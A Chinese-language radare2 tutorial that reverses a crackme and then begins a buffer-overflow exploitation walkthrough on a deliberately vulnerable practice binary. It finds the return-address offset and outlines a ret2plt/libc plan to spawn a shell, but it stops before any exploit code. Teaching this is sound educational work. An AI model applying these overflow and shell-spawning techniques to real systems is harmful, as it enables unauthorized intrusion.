








# 1.基本使用

## 安装 radare2

```
git clone https://github.com/radare/radare2.git
cd radare2
./sys/install.sh
```

更新（radare2  更新块 正开发）

```
./sys/install.sh
```

卸载

```
make uninstall
make purge
```

查看更多

```
r2 -h   或
man rabin2
```


## 安装pwntools   

```
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools

若pip出现timeout问题可在后面连接国内镜像   -i https://pypi.tuna.tsinghua.edu.cn/simple 
```

测试是否安装成功

```
1. python3
2. 输入import pwn
3. 若不报错，继续输入 pwn.asm("xor  eax,eax")
4. 输出 '1\xc0'
5. 成功安装
```


## 1.查看二进制信息

megabeets_0x1 文件下载

```
https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%201%20-%20Simple%20crackme/megabeets_0x1
```


使用命令

```
rabin2 -I megabeets_0x1
```

该命令查看 二进制信息，例如操作系统、语言、字节序、架构、缓解措施（canary、pic、nx）等。



## 2.运行

### 1.命令 `r2 megabeets_0x1`  

运行


显示当前所在地址 (0x08048370)。默认情况下，将自动位于入口点地址。

### 2.命令`ie`   （info >> entrypoint）

查看信息入口点，看上一步是否正确  



### 3.i 命令（info）

```
[0x08048370]> i?
Usage: i  Get info from opened file (see rabin2's manpage)
Output mode:
| '*'                output in radare commands
| 'j'                output in json
| 'q'                simple quiet output
Actions:
| i|ij               show info of current file (in JSON)
| iA                 list archs
| ia                 show all info (imports, exports, sections..)
| ib                 reload the current buffer for setting of the bin (use once only)
| ic                 List classes, methods and fields (icj for json)
| icc                List classes, methods and fields in Header Format
| icg [str]          List classes as agn/age commands to create class hirearchy graphs (matches str if provided)
| icq                List classes, in quiet mode (just the classname)
| icqq               List classes, in quieter mode (only show non-system classnames)
| icl                Show addresses of class and it methods, without names
| ics                Show class symbols in an easy to parse format
| iC[j]              show signature info (entitlements, ...)
| id[?]              show DWARF source lines information
| iD lang sym        demangle symbolname for given language
| ie                 entrypoint
| iee                show Entry and Exit (preinit, init and fini)
| iE                 exports (global symbols)
| iE.                current export
| ih                 headers (alias for iH)
| iHH                verbose Headers in raw text
| ii                 imports
| iI                 binary info
| ik [query]         key-value database from RBinObject
| il                 libraries
| iL [plugin]        list all RBin plugins loaded or plugin details
| im                 show info about predefined memory allocation
| iM                 show main address
| io [file]          load info from file (or last opened) use bin.baddr
| iO[?]              perform binary operation (dump, resize, change sections, ...)
| ir                 list the Relocations
| iR                 list the Resources
| is                 list the Symbols
| is,[table-query]   list symbols in table using given expression
| is.                current symbol
| iS [entropy,sha1]  sections (choose which hash algorithm to use)
| iS.                current section
| iS,[table-query]   list sections in table using given expression
| iS=                show ascii-art color bars with the section ranges
| iSS                list memory segments (maps with om)
| it                 file hashes
| iT                 file signature
| iV                 display file version info
| iw                 show try/catch blocks
| iX                 display source files used (via dwarf)
| iz[?][j]           strings in data sections (in JSON/Base64)
| iz*                print flags and comments r2 commands for all the strings
| izz                search for Strings in the whole binary
| izz*               same as iz* but exposing the strings of the whole binary
| izzz               dump Strings from whole binary to r2 shell (for huge files)
| iz- [addr]         purge string via bin.str.purge
| iZ                 guess size of binary program
```

## 3.分析

​		默认情况下，radare2 不分析文件，因为分析是一个复杂的过程，可能需要很长时间，尤其是在处理大文件时。r2 提供了许多分析类型。我们可以通过命令	`a?`   查看分析选项。

```
0x08048370]> a?
Usage: a  [abdefFghoprxstc] [...]
| a                alias for aai - analysis information
| a*               same as afl*;ah*;ax*
| aa[?]            analyze all (fcns + bbs) (aa0 to avoid sub renaming)
| a8 [hexpairs]    analyze bytes
| ab[?]            analyze basic block
| ac[?]            manage classes
| aC[?]            analyze function call
| ad[?]            analyze data trampoline (wip)
| ad [from] [to]   analyze data pointers to (from-to)
| ae[?] [expr]     analyze opcode eval expression (see ao)
| af[?]            analyze functions
| aF               same as above, but using anal.depth=1
| ag[?] [options]  draw graphs in various formats
| ah[?]            analysis hints (force opcode size, ...)
| ai [addr]        address information (show perms, stack, heap, ...)
| aj               same as a* but in json (aflj)
| aL[jq]           list all asm/anal plugins (See `e asm.arch=?` and `La[jq]`)
| an[?] [name]     show/rename/create whatever var/flag/function is used in current instruction
| ao[?] [len]      analyze Opcodes (or emulate it)
| aO[?] [len]      analyze N instructions in M bytes
| ap               find prelude for current offset
| ar[?]            like 'dr' but for the esil vm. (registers)
| as[?] [num]      analyze syscall using dbg.reg
| av[?] [.]        show vtables
| avg[?] [.]       manage global variables
| ax[?]            manage refs/xrefs (see also afx?)

```


此处用`aaa`  示例   【还可以在启动时通过命令`r2 -A megabeets_0x1`该直接分析二进制文件】

```
[0x08048370]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze all functions arguments/locals
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Finding and parsing C++ vtables (avrr)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information (aanr)
[x] Use -AA or aaaa to perform additional experimental analysis.
```

### 1.Flags

​		After the analysis, radare2 associates names to interesting offsets in the file such as Sections, Function, Symbols, and Strings. Those names are called ‘flags’. Flags can be grouped into ‘flag spaces’. A flag space is a namespace for flags of similar characteristics or type. To list the flag spaces run 'fs'.

​		可以使用` fs <flagspace>` 选择一个标志空间并使用 f 打印它包含的标志。 要在一行中传递多个命令，我们可以使用分号（即 cmd1; cmd2; cmd3;...）。

​		下图中正如我们看到的那样，radare2 标记了二进制文件使用的导入——我们可以看到众所周知的“strcmp”、“strcpy”、“puts”等，以及它们对应的地址。

```
[0x08048370]> fs imports; f
0x00000360 16 loc.imp.__gmon_start__
0x08048320 6 sym.imp.strcmp
0x08048330 6 sym.imp.strcpy
0x08048340 6 sym.imp.puts
0x08048350 6 sym.imp.__libc_start_main
```

还可以列出字符串标志空间` fs strings`		：

```
[0x08048370]> fs strings
[0x08048370]> f
0x08048700 21 str._n__.::_Megabeets_::.
0x08048715 23 str.Think_you_can_make_it_
0x0804872c 10 str.Success__n
0x08048736 22 str.Nop__Wrong_argument._n
```

可以通过执行` fs * `回到默认选择的标志空间。

### 2.Strings

列出文件字符串的方法有多种,要选择最适合目标的一种。

`iz` – 列出数据部分中的字符串
`izz` – 在整个二进制文件中搜索字符串


```
[0x08048370]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000700 0x08048700 20  21   .rodata ascii \n  .:: Megabeets ::.
1   0x00000715 0x08048715 22  23   .rodata ascii Think you can make it?
2   0x0000072c 0x0804872c 9   10   .rodata ascii Success!\n
3   0x00000736 0x08048736 21  22   .rodata ascii Nop, Wrong argument.\n
```

​		我们在执行二进制文件时看到了这些字符串，但是我们没有看到“Success”字符串。现在我们得到了字符串，让我们看看它们在程序中的使用位置。


命令`axt`   代表 analyze x-refs   

​	这个命令向我们展示了更多的radare2特性。 `axt` 命令用于“查找对该地址的数据/代码引用”（参见 `ax？`）。 特殊运算符` @@ `就像一个 foreach 迭代器符号，用于在偏移列表上重复一个命令（参见 `@@?`），而` str.*` 是所有以` str. `开头的标志的通配符。这种组合有助于我们 不仅要列出字符串标志，还要列出函数名称、它们的使用位置和引用指令。 确保在之前选择字符串标志空间（默认，使用`fs *`）。

```
[0x08048370]> axt @@ str.*
main 0x8048609 [DATA:r--] push str._n__.::_Megabeets_::.
main 0x8048619 [DATA:r--] push str.Think_you_can_make_it_
main 0x8048646 [DATA:r--] push str.Success__n
main 0x8048658 [DATA:r--] push str.Nop__Wrong_argument._n

```

### 3.Seeking

命令	`s`	 代表seeking ，用	`s？`	查看具体内容

```
[0x08048370]> s?
Usage: s   # Help for the seek commands. See ?$? to see all variables
| s                 print current address
| s addr            seek to address
| s.[?]hexoff       seek honoring a base from core->offset
| s:pad             print current address with N padded zeros (defaults to 8)
| s-                undo seek
| s-*               reset undo seek history
| s- n              seek n bytes backward
| s--[n]            seek blocksize bytes backward (/=n)
| s+                redo seek
| s+ n              seek n bytes forward
| s++[n]            seek blocksize bytes forward (/=n)
| s[j*=!]           list undo seek history (JSON, =list, *r2, !=names, s==)
| s/ DATA           search for next occurrence of 'DATA'
| s/x 9091          search for next occurrence of \x90\x91
| sa [[+-]a] [asz]  seek asz (or bsize) aligned to addr
| sb                seek aligned to bb start
| sC[?] string      seek to comment matching given string
| sf                seek to next function (f->addr+f->size)
| sf function       seek to address of specified function
| sf.               seek to the beginning of current function
| sg/sG             seek begin (sg) or end (sG) of section or file
| sh                open a basic shell (aims to support basic posix syntax)
| sl[?] [+-]line    seek to line
| sn/sp ([nkey])    seek to next/prev location, as specified by scr.nkey
| snp               seek to next function prelude
| spp               seek to prev function prelude
| so [N]            seek to N next opcode(s)
| sr pc             seek to register
| ss[?]             seek silently (without adding an entry to the seek history)
```

例如寻找 main函数 可以用命令`s main`	来实现

命令	`afl`   (Analyze Functions List).	可查看radare2为我们标记了哪些其他函数。

```
[0x080485f5]> afl
0x08048370    1 33           entry0
0x08048350    1 6            sym.imp.__libc_start_main
0x080483b0    4 43           sym.deregister_tm_clones
0x080483e0    4 53           sym.register_tm_clones
0x08048420    3 30           sym.__do_global_dtors_aux
0x08048440    4 43   -> 40   entry.init0
0x080486e0    1 2            sym.__libc_csu_fini
0x080483a0    1 4            sym.__x86.get_pc_thunk.bx
0x0804846b   19 282          sym.rot13
0x080486e4    1 20           sym._fini
0x08048585    1 112          sym.beet
0x08048330    1 6            sym.imp.strcpy
0x08048320    1 6            sym.imp.strcmp
0x08048680    4 93           sym.__libc_csu_init
0x080485f5    5 127          main
0x080482ec    3 35           sym._init
0x08048360    1 6            sym..plt.got
0x08048340    1 6            sym.imp.puts

```

可以看到

### 4.Disassembling

反汇编主函数 首先使用命令`s main` 找到主函数  在使用命令`pdf`(Print Disassemble Function)进行反汇编

```
[0x080485f5]> s main
[0x080485f5]> pdf
            ; DATA XREF from entry0 @ 0x8048387(r)
┌ 127: int main (char **argv);
│           ; var int32_t var_8h @ ebp-0x8
│           ; arg char **argv @ esp+0x24
│           0x080485f5      8d4c2404       lea ecx, [argv]
│           0x080485f9      83e4f0         and esp, 0xfffffff0
│           0x080485fc      ff71fc         push dword [ecx - 4]
│           0x080485ff      55             push ebp
│           0x08048600      89e5           mov ebp, esp
│           0x08048602      53             push ebx
│           0x08048603      51             push ecx
│           0x08048604      89cb           mov ebx, ecx
│           0x08048606      83ec0c         sub esp, 0xc
│           0x08048609      6800870408     push str._n__.::_Megabeets_::. ; 0x8048700 ; "\n  .:: Megabeets ::." ; const char *s
│           0x0804860e      e82dfdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048613      83c410         add esp, 0x10
│           0x08048616      83ec0c         sub esp, 0xc
│           0x08048619      6815870408     push str.Think_you_can_make_it_ ; 0x8048715 ; "Think you can make it?" ; const char *s
│           0x0804861e      e81dfdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048623      83c410         add esp, 0x10
│           0x08048626      833b01         cmp dword [ebx], 1
│       ┌─< 0x08048629      7e2a           jle 0x8048655
│       │   0x0804862b      8b4304         mov eax, dword [ebx + 4]
│       │   0x0804862e      83c004         add eax, 4
│       │   0x08048631      8b00           mov eax, dword [eax]
│       │   0x08048633      83ec0c         sub esp, 0xc
│       │   0x08048636      50             push eax                    ; int32_t arg_8h
│       │   0x08048637      e849ffffff     call sym.beet
│       │   0x0804863c      83c410         add esp, 0x10
│       │   0x0804863f      85c0           test eax, eax
│      ┌──< 0x08048641      7412           je 0x8048655
│      ││   0x08048643      83ec0c         sub esp, 0xc
│      ││   0x08048646      682c870408     push str.Success__n         ; 0x804872c ; "Success!\n" ; const char *s
│      ││   0x0804864b      e8f0fcffff     call sym.imp.puts           ; int puts(const char *s)
│      ││   0x08048650      83c410         add esp, 0x10
│     ┌───< 0x08048653      eb10           jmp 0x8048665
│     │││   ; CODE XREFS from main @ 0x8048629(x), 0x8048641(x)
│     │└└─> 0x08048655      83ec0c         sub esp, 0xc
│     │     0x08048658      6836870408     push str.Nop__Wrong_argument._n ; 0x8048736 ; "Nop, Wrong argument.\n" ; const char *s
│     │     0x0804865d      e8defcffff     call sym.imp.puts           ; int puts(const char *s)
│     │     0x08048662      83c410         add esp, 0x10
│     │     ; CODE XREF from main @ 0x8048653(x)
│     └───> 0x08048665      b800000000     mov eax, 0
│           0x0804866a      8d65f8         lea esp, [var_8h]
│           0x0804866d      59             pop ecx
│           0x0804866e      5b             pop ebx
│           0x0804866f      5d             pop ebp
│           0x08048670      8d61fc         lea esp, [ecx - 4]
└           0x08048673      c3             ret
```

通过阅读程序集，我们可以生成一个快速的伪代码：

```
//f any argument passed to the program AND the result of beet, given the passed argument, is true
// argc is the number of arguments passed to the program
// argc will be at least 1 becuase the first argument is the program name
// argv is the array of parameters passed to the program
if (argc > 1 && beet(argv[1]) == true) 
{
    print "success"
} else { 
     print "fail"
} 
exit
```

### 5.Visual Mode & Graph Mode  视觉模式和图形模式

`V` 进入可视模式屏幕。 使用	`p/P`	在模式之间切换。在屏幕顶部，可以看到用于生成视图的命令。

使用` p `    导航到反汇编视图。返回，` q`。


Mark

`m<key>`   `'<key>`

`m<key>	 `	can be used to mark specific offset with a key of your choice. Press	` '<key>`  	to go to your key. This helps to mark some key addresses that you’d like to quickly navigate to.


可视化图表

`VV`

### 6.反汇编 'beet'函数

有多种方法  达到该目的

#### 1.

寻找 beet 	`	s sym.beet `	（`sym.beet` 是 `beet` 函数的标志。您可以通过运行` f sym.<tab>` 打印“sym”标志），然后执行 `pdf `( 打印反汇编函数）。

#### 2.

使用` pdf@sym.beet` 从 r2 shell 打印`beet`，无需搜索。` @` 用作临时搜索。 即“在偏移 sym.beet 处打印函数”。

#### 3.

在图形模式下 使用 `oc`（call sym.beet 指令旁边的字母）从 main 跳转到 beet。



我们可以看到给定的参数被复制到缓冲区。(char dest) 

缓冲区位置 `var char *dest @ ebp-0x88`

因此，堆栈中的缓冲区分配了 128 个字节，接下来的 4 个字节将是前一个堆栈帧的保存的 ebp 指针，接下来的 4 个字节将是返回地址，总计为 136。

我们已经看到了之前无法识别的字符串’Megabeets’(根据字节序反向压栈顺序得到).

这个二进制文件将我们传入的参数来和经过 rot13 处理后的 ‘Megabeets’ 作比较

接下来我们通过 rahash2 求出这个字符串的校验值,通过使用 `！` 我们可以在 r2 shell 中执行 shell 命令。

```
!rahash2 -E rot -S s:13 -s "Megabeets\n"
```


至此，程序的逻辑就很清楚了：

‘Zrtnorrgf’ 就是用来和我们输入的字符串作比较，成功则返回success

我们验证一下：

### 7.ood调试模式

使用odd？ 查看具体使用

```
> ood?
Usage: ood   # Debug (re)open commands
| ood [args]      # reopen in debug mode (with args)
| oodf [file]     # reopen in debug mode using the given file
| oodr [rarun2]   # same as dor ..;ood
```

```
ood Zrtnorrgf
```

在radare2 调试器中打开了megabeets_0x1，并带有一个参数。

```
 dc
```

`dc `代表“**d**ebug **c**ontinue”

```
[0x08048370]> ood Zrtnorrgf
INFO: File dbg:///home/jwj/桌面/megabeets_0x1 Zrtnorrgf reopened in read-write mode
[0xf7f51120]> dc

  .:: Megabeets ::.
Think you can make it?
Success!

(77813) Process exited with status=0x0
```


# 2.进阶  ——binary exploitation

radare2中有许多功能，例如缓解检测、ROP 小工具搜索、随机模式生成、寄存器伸缩等等

二进制文件下载地址

```
https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
```

或者 源文件地址及编译

```
https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c

gcc -m32  -fno-stack-protector -no-pie megabeets_0x2.c -o megabeets_0x2
```

这次二进制文件与上一篇文章中的二进制文件非常相似，只是对 main() 函数进行了一些细微的更改：

编译时不使用 -z execstac 以启用 NX 位
使用 scanf 接收用户输入，而不是来自程序的参数
主要用于打印到屏幕上
程序输出的微小变化

之前的main函数

```
int main(int argc, char *argv[])
{
    printf("\n  .:: Megabeets ::.\n");
    printf("Think you can make it?\n");
    if (argc >= 2 && beet(argv[1]))
    {
        printf("Success!\n\n");
    }
    else
        printf("Nop, Wrong argument.\n\n");

    return 0;
}
```

现在的main函数

```
int main(int argc, char *argv[])
{
    char *input; 
    puts("\n  .:: Megabeets ::.\n");
    puts("Show me what you got:");
    
    scanf("%ms", &input);
    if (beet(input))
    {
        printf("Success!\n\n");
    }
    else
        puts("Nop, Wrong argument.\n\n");

    return 0;
}
```

输入与上次也相同，输入  `Zrtnorrgf`    成功，否则失败



## 1.首先检查 保护机制的情况

```
rabin2 -I megabeets_0x2
```



​		可以看到该二进制文件是 NX 保护的，这意味着我们没有可执行的堆栈可以依赖。 此外，该文件不受 canaries 、 pic 或 relro 保护。


在没有源代码的情况下，要查看反汇编情况进行分析

```
		如果一个文件很大，从 `aaa`开始从头分析很难，大多数情况下不这样做。radare2 实现了许多不同的命令来执行不同类型的分析。巧妙地使用这些命令可以帮助您加快分析过程并仅分析您认为最重要的部分：
Find functions by prelude instructions (aap)
Identify functions by following calls (aac)
Detect jump tables and pointers to code section (/V)
Analyze opcode absolute and relative references (aa\r)
Find code/data/string references to a specific address (/r)
Emulate code to identify new pointer references (aae)
Use binary header information to find public functions (aas)
Assume functions are consecutive (aat)
```

-d    		在调试模式下打开
aas   	分析函数、符号等

dcu 		代表 debug continue until



然后按 `V V` 进入可视图形模式。 如第一部分所述，可以使用` p `和 `P `切换视图，分别使用 h/j/k/l 移动左/下/上/右，并使用 g 和跳转调用旁边显示的键跳转到一个函数 ( 例如gd）。

利用 ？ 列出 Visual Graph 模式的所有命令




​		上图可以看到通过 scanf() ）然后将此输入传递给 sym.beet 的函数。 通过按` oc`，我们可以跳转到处理我们输入的函数 beet()：




​		上图可以看到用户输入 [arg_8h] 被复制到缓冲区 ([local_88h])，然后，正如我们在上一篇文章中看到的那样，字符串 Megabeets 使用 rot13 加密，然后将结果与我们的输入进行比较。我们输入的大小永远不会被检查，并且输入会按原样复制到缓冲区。 这意味着如果我们输入的输入大于缓冲区的大小，我们将导致缓冲区溢出并破坏堆栈。

## 2.Crafting the exploit  制作漏洞利用

​		现在我们已经找到了易受攻击的函数，我们需要精心设计一个有效载荷来利用它。 我们的目标只是在系统上获得一个 shell。 首先，我们需要验证确实存在易受攻击的函数，然后，我们将找到我们的有效负载覆盖堆栈的偏移量。

使用radare2中的 工具		`ragg2`  	它允许我们生成一个称为  De Bruijn Sequence  的循环模式，**并检查我们的有效负载覆盖缓冲区的确切偏移量。**

```
$ ragg2 -
<truncated>
 -P [size]       prepend debruijn pattern
<truncated>
 -r              show raw bytes instead of hexpairs
<truncated>

$ ragg2 -P 100 -r
```

​	


二进制文件是通过标准输入获取用户输入的，而不是将我们的输入复制到 shell，所以要使用另一个工具`rarun2`

------

​		`rarun2` is used as a launcher for running programs with different environments, arguments, permissions, directories and overrides the default file descriptors (e.g. stdin).

​		It is useful when you have to run a program using long arguments, pass a lot of data to `stdin` or things like that, which is usually the case for exploiting a binary.

------

我们需要做以下三个步骤：

- 使用 ragg2 将 De Bruijn 模式写入文件
- 创建 rarun2 配置文件并将输出文件设置为标准输入
- 让radare2找到偏移量

```
jwj@jwj-VMware-Virtual-Platform:~/桌面$ ragg2 -P 200 -r >pattern.txt
jwj@jwj-VMware-Virtual-Platform:~/桌面$ cat pattern.txt 
A···DABEABFA

jwj@jwj-VMware-Virtual-Platform:~/桌面$ vim profile.rr2
jwj@jwj-VMware-Virtual-Platform:~/桌面$ cat profile.rr2 
#!/usr/bin/rarun2
stdin=./pattern.txt

jwj@jwj-VMware-Virtual-Platform:~/桌面$ r2 -r profile.rr2 -d megabeets_0x2 

INFO: glibc.fc_offset = 0x00148
 -- *(ut64*)buffer ought to be illegal
[0xf7fb3120]> dc

  .:: Megabeets ::.

Show me what you got?
[+] SIGNAL 11 errno=0 addr=0x41417641 code=1 si_pid=1094809153 ret=0
[0x41417641]> 

```

执行二进制文件并使用 rarun2 将 pattern.txt 的内容传递给标准输入，并收到 SIGSEV 11。

------

​	A signal is an asynchronous（异步） notification sent to a process or to a specific thread within the same process in order to notify it of an event that occurred.

​	The SIGSEGV (11) signal is sent to a process when it makes an invalid virtual memory reference, or segmentation fault, i.e.（换句话说，即） when it performs a segmentation violation.

------

提示指向 0x41417641， 这是代表“AvAA”（asciim little-endian）的无效地址，是我们模式中的一个片段。 radare允许我们在 De Bruijn 模式中找到给定值的偏移量。

```
[0x41417641]> wop?
Usage: wop[DO]   len @ addr | value
| wopD len [@ addr]   write a De Bruijn Pattern of length 'len' at address 'addr'
| wopD* len [@ addr]  show wx command that creates a debruijn pattern of a specific length
| wopO value          finds the given value into a De Bruijn Pattern at current offset
[0x41417641]> wopO `dr eip`
140
```

现在可以看到返回地址的覆盖发生在 140 字节之后。根据这个构造漏洞

## 3.Creating the exploit

​		我们的目标是在正在运行的系统上生成一个 shell。为了了解我们能做什么，我们首先需要了解我们不能做什么。

- 受 ASLR 保护，因此我们无法预测 libc 将在内存中加载的地址。所以不能用 ret2libc。
- 受 NX 保护，这意味着堆栈不可执行，因此我们不能只是将 shellcode 放在堆栈上并跳转到它。

​		尽管这些保护措施使我们无法使用一些利用技术，但它们也不能幸免，我们可以轻松地制作一个有效负载来绕过它们。 为了组装我们的漏洞利用，我们需要更仔细地查看二进制文件提供给我们的库和函数。

让我们再次以调试模式打开二进制文件，看看它使用的库和函数。 从库开始：

`il `代表信息库，展示了二进制文件使用的库。 在我们的例子中只有一个库—— libc。

通过执行`ii `来看看导入的函数，它代表—— **I**nformation **I**mports。 我们还可以将 q 添加到我们的命令中以打印不太详细的输出：

```
$ r2 -d megabeets_0x2 
INFO: glibc.fc_offset = 0x00148
 -- See you at the defcon CTF
 
[0xf7fba120]> il
[Linked libraries]
libc.so.6

1 library

[0xf7fba120]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x08048370 GLOBAL FUNC       strcmp
2   0x08048380 GLOBAL FUNC       strcpy
3   0x08048390 GLOBAL FUNC       puts
4   0x000003c0 WEAK   NOTYPE     __gmon_start__
5   0x080483a0 GLOBAL FUNC       __libc_start_main
6   0x080483b0 GLOBAL FUNC       __isoc99_scanf

[0xf7fba120]> iiq
strcmp
strcpy
puts
__gmon_start__
__libc_start_main
__isoc99_scanf
```

​		可以看到有 `puts` 和 `scanf`，可以利用这两个来创建一个干净的漏洞利用。 我们的漏洞将利用我们可以控制程序流的事实（还记得 ret 试图跳转到我们模式中的偏移量吗？）我们将尝试执行 system("/bin/sh") 来弹出 shell

### 1.The plan

- Leak the real address of puts												   找到 puts 的真实地址
- Calculate the base address of libc								           计算libc的基地址
- Calculate the address of `system`									          计算系统地址
- Find an address in libc that contains the string` /bin/sh  `     在 libc 中查找包含字符串 /bin/sh 的地址
- Call `system` with `/bin/sh `and spawn a shell		                 使用 /bin/sh 调用系统并生成一个 shell

### 2.Leaking the address of `puts`

为了找到puts的真实地址，使用一种称为 `ret2plt`( *Procedure Linkage Table* )

Procedure Linkage Table  是一个内存结构，其中包含外部函数的代码存根，这些函数的地址在链接时是未知的。

每当我们在 .text 段中看到对函数的 CALL 指令时，它都不会直接调用该函数。相反，它在` PLT `调用存根代码，例如 `func_name@plt`。然后存根跳转到全局偏移表 (·`GOT`  *Global Offset Table*) 中为该函数列出的地址。如果它是对该函数的第一次调用，则` GOT `条目将指向` PLT`，而后者又会调用一个动态链接器，该链接器将解析所需函数的真实地址。下次调用 `func_name@plt `时，存根直接从` GOT `获取函数地址。

要阅读有关链接过程的更多信息

```
https://www.airs.com/blog/archives/38
```

